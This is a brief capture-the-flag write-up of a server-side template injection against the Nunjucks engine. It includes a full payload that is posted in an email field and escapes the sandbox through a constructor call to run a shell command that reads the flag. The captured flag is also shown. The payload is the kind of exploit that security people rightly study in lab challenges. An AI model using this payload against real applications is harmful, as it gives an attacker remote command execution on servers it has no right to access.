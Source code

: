 Due to the fact we can interact directly with the `nunjucks.renderString` so using the constructor method from the Object class we can run normal javascript escaping the sandbox.

https://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine

Post this as the email address to send to
```js
email@example.com;{{ range.constructor(\"return global.process.mainModule.require('child_process').execSync('/readflag').toString()\")() }}
```

CHTB{I_can_f1t_my_p4yl04ds_3v3rywh3r3!} 